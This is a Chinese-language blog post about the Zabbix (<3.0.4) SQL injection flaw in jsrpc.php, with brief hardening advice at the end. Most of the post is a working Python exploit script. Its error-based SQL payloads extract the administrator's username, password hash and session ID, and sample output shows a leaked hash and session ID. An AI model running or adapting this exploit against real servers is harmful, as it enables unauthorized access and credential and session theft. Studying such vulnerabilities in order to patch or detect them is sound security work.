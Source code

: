 ```yaml
---
layout: post
title: Zabbix 最新 SQL 注入漏洞及 EXP
description: "Zabbix 最新 SQL 注入漏洞及 EXP"
category: Security
avatarimg:
tags: [Security, Zabbix, SQL-Injection, EXP]
duoshuo: true
---
```


# 引言

这两天，大家都在说 Zabbix 的 SQL 注入漏洞，下面我们来看下。

# CNNVD：关于 Zabbix 漏洞情况的通报

CNNVD：关于 Zabbix 漏洞情况的通报(http://bobao.360.cn/news/detail/3468.html)  
上面详细介绍了漏洞简介，漏洞危害，及修复措施。但没有说到漏洞检测测试的方法。
[【漏洞预警】ZABBIX 高危漏洞，无需授权登陆即可完成控制](http://bobao.360.cn/news/detail/3462.html)，这篇文章提到漏洞检测测试的方法。  
下面我们根据以上漏洞测试方法来用 Python 写一个 Exp。

# Zabbix 最新 SQL 注入漏洞 EXP

来自 [Zabbix 最新 SQL 注入漏洞+EXP-独自等待博客](http://www.waitalone.cn/zabbix-sql-1.html) 

```python

#!/usr/bin/env python
# -*- coding: utf-8 -*-
# Date: 2016/8/18
# Modified by: Jamin Zhang

import urllib2
import sys, os
import re

def deteck_Sql():
    u'检查是否存在 SQL 注入'
    payload = "jsrpc.php?sid=0bcd4ade648214dc&type=9&method=screen.get&timestamp=1471403798083&mode=2&screenid=&groupid=&hostid=0&pageFile=history.php&profileIdx=web.item.graph&profileIdx2=999'&updateProfile=true&screenitemid=&period=3600&stime=20160817050632&resourcetype=17&itemids%5B23297%5D=23297&action=showlatest&filter=&filter_task=&mark_color=1"
    try:
        response = urllib2.urlopen(url + payload, timeout=10).read()
    except Exception, msg:
        print msg
    else:
        key_reg = re.compile(r"INSERT\s*INTO\s*profiles")
        if key_reg.findall(response):
            return True


def sql_Inject(sql):
    u'获取特定sql语句内容'
    payload = url + "jsrpc.php?sid=0bcd4ade648214dc&type=9&method=screen.get&timestamp=1471403798083&mode=2&screenid=&groupid=&hostid=0&pageFile=history.php&profileIdx=web.item.graph&profileIdx2=" + urllib2.quote(
        sql) + "&updateProfile=true&screenitemid=&period=3600&stime=20160817050632&resourcetype=17&itemids[23297]=23297&action=showlatest&filter=&filter_task=&mark_color=1"
    try:
        response = urllib2.urlopen(payload, timeout=10).read()
    except Exception, msg:
        print msg
    else:
        result_reg = re.compile(r"Duplicate\s*entry\s*'~(.+?)~1")
        results = result_reg.findall(response)
        if results:
            return results[0]


if __name__ == '__main__':
    # os.system(['clear', 'cls'][os.name == 'nt'])
    print '+' + '-' * 60 + '+'
    print u'\t   Python Zabbix < 3.0.4 SQL 注入 Exploit'
    print '\t    Origin Author: http://www.waitalone.cn/'
    print '\t\t   Modified by: Jamin Zhang'
    print '\t\t   Date: 2016-08-18'
    print '+' + '-' * 60 + '+'
    if len(sys.argv) != 2:
        print u'用法: ' + os.path.basename(sys.argv[0]) + u' [Zabbix Server Web 后台 URL]'
        print u'实例: ' + os.path.basename(sys.argv[0]) + ' http://jaminzhang.github.io'
        sys.exit()
    url = sys.argv[1]
    if url[-1] != '/': url += '/'
    passwd_sql = "(select 1 from(select count(*),concat((select (select (select concat(0x7e,(select concat(name,0x3a,passwd) from  users limit 0,1),0x7e))) from information_schema.tables limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a)"
    session_sql = "(select 1 from(select count(*),concat((select (select (select concat(0x7e,(select sessionid from sessions limit 0,1),0x7e))) from information_schema.tables limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a)"
    if deteck_Sql():
        print u'Zabbix 存在 SQL 注入漏洞！\n'
        print u'管理员  用户名密码：%s' % sql_Inject(passwd_sql)
        print u'管理员  Session_id：%s' % sql_Inject(session_sql)
    else:
        print u'Zabbix 不存在 SQL 注入漏洞！\n'

```    

以下为执行上述 Exp 脚本输出结果：

```bash

C:\Users\xxx\Desktop>python zabbix_exp.py
+------------------------------------------------------------+
           Python Zabbix < 3.0.4 SQL 注入 Exploit
                   Origin Author: http://www.waitalone.cn/
                   Modified by: Jamin Zhang
                   Date: 2016-08-18
+------------------------------------------------------------+
用法: zabbix_exp.py [Zabbix Server Web 后台 URL]
实例: zabbix_exp.py http://jaminzhang.github.io

C:\Users\xxx\Desktop>python zabbix_exp.py http://192.168.56.11/zabbix
+------------------------------------------------------------+
           Python Zabbix < 3.0.4 SQL 注入 Exploit
                   Origin Author: http://www.waitalone.cn/
                   Modified by: Jamin Zhang
                   Date: 2016-08-18
+------------------------------------------------------------+
Zabbix 存在 SQL 注入漏洞！

管理员  用户名密码：Zabbix:5fce1b3e34b520afeffb37ce08c7cd66
管理员  Session_id：16c9fe855b00a92112ae55cad58792c6

```    

漏洞修复方法上面提到的文档中都有说明，按照文档来修复吧。

# 扩展

## 1. 运维思想

1. 如果 Zabbix 是通过 VPN 走公司内网访问，外面是无法访问 Zabbix 的
2. 如果 Zabbix 有外网地址，可以将 Zabbix 服务器的外网地址网卡 shutdown，使其无法从外网访问 Zabbix 服务器
3. 运维人员若想访问 Zabbix 查看监控，可以通过 VPN 连接公司内网，然后登录查看 Zabbix 监控
4. 黑客无法从外网访问你的 Zabbix 服务器，你的 Zabbix 服务器也就不存在漏洞的威胁

## 2. 关于升级 Zabbix 服务器的风险

若贸然给服务器升级 Zabbix 服务的话，可能会造成监控业务的不稳定因素，需要提前规划好升级计划，  
要从根本上解决问题，规划配置好安全架构，而不是仅关注些许的漏洞。

## 3 小结

* 漏洞是无止境的，只有从思想上去解决问题，才能避免安全事故的发生
* 技术的提升知识量的积累，思想的转变才是质的飞跃


# Ref
[CNNVD：关于 Zabbix 漏洞情况的通报](http://bobao.360.cn/news/detail/3468.html)  
[Zabbix 最新 SQL 注入漏洞+EXP](http://www.waitalone.cn/zabbix-sql-1.html)  
[【漏洞预警】ZABBIX 高危漏洞，无需授权登陆即可完成控制（更新利用工具）](http://bobao.360.cn/news/detail/3462.html)  
[SQL injection vulnerabilities in "Latest data"](https://support.zabbix.com/browse/ZBX-11023)  
[Zabbix 2.2.x / 3.0.x - SQL Injection](https://www.exploit-db.com/exploits/40237/)  
[poc, vul, exp 都是什么意思呢](https://www.zhihu.com/question/26053378)  
